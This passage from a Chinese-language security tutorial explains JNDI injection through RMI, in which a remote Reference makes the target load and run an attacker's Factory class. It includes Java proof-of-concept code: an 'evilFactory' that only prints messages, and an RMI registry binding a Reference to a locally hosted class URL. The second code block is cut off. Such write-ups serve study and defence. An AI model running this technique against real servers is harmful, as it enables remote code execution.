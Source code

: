 ![](img/2023-02-17-17-55-29.png)  
而这所有参数都是由传入lookup的字符串来控制,所有当传入lookup的字符串可控时,就能覆盖之前的配置让服务端来访问我们自己的恶意Naming或者Directory服务.
### RMI利用
通过指定协议为RMI,事服务器访问并得到我们注册中心的恶意远程对象,但是在服务端如果有类型转换则会异常并且我们并不能控制调用我们恶意远程对象的方法,在这里可以通过Reference类来达到RCE的目的.
#### Reference
有时候数据过大或对象不适合直接在JNDI中进行绑定时就会使用References.通过引用,可以在JNDI中绑定一个能被命名管理器解码的引用来指定原始的引用对象.  
该引用由Reference类表示,并且由地址和有关被引用对象的类信息组成,每个地址都包含有关如何构造对象.  
在JNDI服务中，RMI服务端除了直接绑定远程对象之外，还可以通过References类来绑定一个外部的远程对象（当前名称目录系统之外的对象）。绑定了Reference之后，服务端会先通过Referenceable.getReference()获取绑定对象的引用，并且在目录中保存。当客户端在lookup()查找这个远程对象时，客户端会获取相应的object factory，最终通过factory类将reference转换为具体的对象实例。
#### 恶意的factory
利用思路如下攻击者RMI服务器向目标返回一个Reference对象，Reference对象中指定某个精心构造的Factory类,该类的地址指定为远程地址(一般为HTTP服务等),目标在进行lookup()操作时，会动态加载并实例化Factory类，接着调用factory.getObjectInstance()获取外部远程对象实例.  
在这个过程中客户端首先会实例化我们指定的Factory类,那么我们便可以在该Factory类的静态代码块,构造函数中写入恶意代码,那么在实例化时便会触发恶意代码,或者重新写`getObjectInstance()`方法使其在获取远程对象时触发恶意代码.  
#### 实现代码
恶意Factory,javac 编译后class文件放到HTTP服务器上.
```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class evilFactory implements ObjectFactory {
    static {
        System.out.println("static invoke");
    }
    public evilFactory (){
        System.out.println("Construct invoke");
    }
    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {

        System.out.println("getObjectInstance invoke");
        return null;
    }
}
```  
注册中心绑定Reference引用,引用指向恶意Factory class文件的远程地址.
```java
package rmiserver;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class rmi {
    public static void main(String[] args) {
        try{
            Registry registry = LocateRegistry.createRegistry(1099);
            Reference reference = new Reference("evilFactory","evilFactory","http://127.0.0.1:8089/");
            ReferenceWrapper refObjWrapper = new ReferenceWrapper(reference);
            registry.rebind("evilFactory", refObjWrapper);
            System.out.println("evilFactory reference bound");
    } catch (Exception e) {
        e.printStackTrace();
    }
```